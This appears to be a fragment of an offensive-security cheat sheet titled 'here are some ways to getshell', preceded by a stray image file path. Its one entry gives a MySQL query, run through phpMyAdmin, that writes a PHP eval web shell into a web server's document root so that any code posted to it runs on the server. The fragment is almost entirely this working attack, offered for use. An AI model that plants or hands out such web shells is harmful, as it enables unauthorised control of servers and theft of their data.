 # here are some ways to getshell

##php
* if the site use `phpmyadmin` & you can run mysql query,then just run
  ```select '<?php @eval($_POST[wooyun])?>'INTO OUTFILE 'D:/xampp/htdocs/php1nfo.php'```
